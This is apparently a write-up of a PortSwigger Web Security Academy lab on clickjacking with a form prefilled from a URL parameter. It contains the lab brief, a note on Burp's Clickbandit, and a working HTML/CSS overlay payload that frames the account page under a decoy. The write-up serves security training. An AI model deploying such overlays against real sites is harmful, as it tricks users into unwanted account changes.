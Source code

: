 Tile:Clickjacking with form input data prefilled from a URL parameter
Desc: This lab extends the basic clickjacking example in Lab: Basic clickjacking with CSRF token protection. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.
To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.
You can log in to your own account using the following credentials: wiener:peter 

# Theory:
Clickbandit

Although you can manually create a clickjacking proof of concept as described above, this can be fairly tedious and time-consuming in practice. When you're testing for clickjacking in the wild, we recommend using Burp's Clickbandit tool instead. This lets you use your browser to perform the desired actions on the frameable page, then creates an HTML file containing a suitable clickjacking overlay. You can use this to generate an interactive proof of concept in a matter of seconds, without having to write a single line of HTML or CSS. 

# Walkthrough:
there is one trick in this lab - you can provide email by parameter in url:
<img width="973" height="612" alt="image" src="https://github.com/user-attachments/assets/bd1095f0-a632-4d83-ba63-da3a851a883a" />


```
<style>
    iframe {
        position:relative;
        width: 400;
        height: 550;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 456;
        left: 50;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a78006703df7cf080ff036c00a50061.web-security-academy.net/my-account?email=test4@gmail.com"></iframe>
```
